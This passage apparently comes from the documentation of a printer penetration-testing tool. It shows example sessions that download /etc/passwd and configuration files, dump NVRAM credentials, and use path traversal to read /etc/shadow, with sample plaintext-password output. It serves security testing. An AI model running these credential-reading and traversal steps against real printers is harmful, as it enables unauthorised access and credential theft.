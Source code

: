 
## 🔓 Security Testing Examples

### Example 4: Password Extraction

**Scenario**: Extract passwords and credentials from printer

```bash
# Download passwd file
192.168.1.100:/> download /etc/passwd

Downloaded passwd to ./passwd

# View contents
$ cat passwd
root:x:0:0:root:/root:/bin/sh
admin:x:1000:1000:admin:/home/admin:/bin/sh

# Dump NVRAM (may contain passwords)
192.168.1.100:/> nvram dump

NVRAM Contents:
ADMIN_PASSWORD=secret123
WIFI_PSK=MyWiFiPass2024
SMTP_PASSWORD=email_pass
SNMP_COMMUNITY=private

# Download configuration
192.168.1.100:/> download /etc/config.xml

# Analyze locally
$ grep -i "password" config.xml
<AdminPassword>PlainTextPass123</AdminPassword>
<WiFiPassword>WPA2Key2024</WiFiPassword>
```

**Findings:**
- ✅ Passwords stored in plaintext
- ✅ Configuration accessible without authentication
- ✅ NVRAM contains credentials
- ✅ No encryption of sensitive data

---

### Example 5: Path Traversal Attack

**Scenario**: Exploit path traversal to access system files

```bash
# Test basic traversal
192.168.1.100:/> cd ../../../
192.168.1.100:/../../../> ls

d        -   bin
d        -   boot
d        -   etc
d        -   home
d        -   root
d        -   var

# Access sensitive files
192.168.1.100:/> download ../../../etc/passwd
192.168.1.100:/> download ../../rw/var/sys/passwd
192.168.1.100:/> download 0:/../../../etc/shadow

```